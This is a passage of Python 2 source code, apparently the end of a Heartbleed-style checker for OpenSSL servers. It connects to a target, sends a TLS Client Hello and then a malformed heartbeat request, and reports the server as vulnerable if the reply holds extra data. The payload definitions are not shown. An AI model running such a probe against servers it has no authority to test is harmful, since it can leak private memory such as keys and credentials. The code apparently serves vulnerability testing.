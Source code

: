 ```python
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)


if __name__ == '__main__':
    main()
